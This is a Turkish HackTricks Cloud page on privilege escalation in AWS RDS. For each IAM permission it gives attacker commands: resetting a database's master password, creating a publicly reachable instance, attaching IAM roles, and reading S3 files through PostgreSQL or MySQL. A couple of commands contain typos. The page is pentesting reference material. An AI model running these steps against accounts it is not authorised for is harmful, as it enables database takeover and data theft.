 # AWS - RDS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## RDS - İlişkisel Veritabanı Servisi

RDS hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan **ana kullanıcının şifresini değiştirebilir** ve veritabanı içindeki oturumu değiştirebilir:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Veritabanına **ulaşabilmeniz** gerekecek (genellikle yalnızca iç ağlardan erişilebilirler).
{% endhint %}

**Olası Etki:** Veritabanlarında hassas bilgileri bulmak.

### rds-db:connect

[**belgelere**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) göre, bu izne sahip bir kullanıcı DB örneğine bağlanabilir.

### RDS Rol IAM izinlerini kötüye kullanma

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** komutunu çalıştırdığınızda **`rdsadmin`** adında bir veritabanı bulursanız, bir **AWS postgresql veritabanası** içinde olduğunuzu bilirsiniz.
{% endhint %}

Öncelikle bu veritabanının başka bir AWS hizmetine erişim için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunu, kurulu uzantılara bakarak kontrol edebilirsiniz:
```sql
SELECT * FROM pg_extension;
```
Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişime sahip olduğunu** varsayabilirsiniz (diğer uzantılar **`aws_ml`** ve **`aws_lambda`** gibi uzantılar da vardır).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izinleriniz varsa, **`AssociatedRoles`** alanında **kümenin herhangi bir IAM Rolü ile ilişkilendirilip ilişkilendirilmediğini** görebilirsiniz. Eğer varsa, veritabanının **diğer AWS hizmetlerine erişim için hazırlandığını** varsayabilirsiniz. **Rolün adı** (veya rolün **izinlerini** alabiliyorsanız) temelinde, veritabanının ne tür ek erişimlere sahip olduğunu **tahmin edebilirsiniz**.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Eğer **ham AWS kimlik bilgilerine** sahip olsaydınız, bunları S3 verilerine erişmek için de kullanabilirdiniz:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **S3'e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz**.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Bir mysql içinde **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırdığınızda ve **`rdsadmin`** adında bir kullanıcı varsa, **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.
{% endhint %}

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanasının S3 verilerine erişmeye hazır olduğunu varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili rolü** olup olmadığını kontrol edebilirsiniz; bu genellikle AWS hizmetlerine erişim anlamına gelir.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim sağlama** veya örnekteki verileri değiştirme imkanı verebilir.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.\
Bazı DB'lerin, parametre gruplarında rol ARN'sinin belirtilmesi gibi ek yapılandırmalara ihtiyaç duyduğunu unutmayın.

### `rds:CreateDBInstance`

Bu izinle bir saldırgan, zaten var olan ve bir **IAM rolü** eklenmiş bir **küme içinde yeni bir örnek** oluşturabilir. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı örneğini internete açma olanağına sahip olabilir:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rol ile yeni bir RDS örneği oluşturabilir**. Saldırgan daha sonra potansiyel olarak **hassas verilere erişebilir** veya örnekteki verileri değiştirebilir.

{% hint style="warning" %}
Eklemek için rol/örnek profili ile ilgili bazı gereksinimler ( [**buradan**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html) ):

* Profil hesabınızda mevcut olmalıdır.
* Profilin, Amazon EC2'nin üstlenme izinlerine sahip olduğu bir IAM rolü olmalıdır.
* Örnek profil adı ve ilişkili IAM rol adı `AWSRDSCustom` ön eki ile başlamalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Olası Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim** sağlama veya örnekteki verileri değiştirme imkanı verebilir.

{% hint style="warning" %}
DB örneği, bunun için bir kümenin dışında olmalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
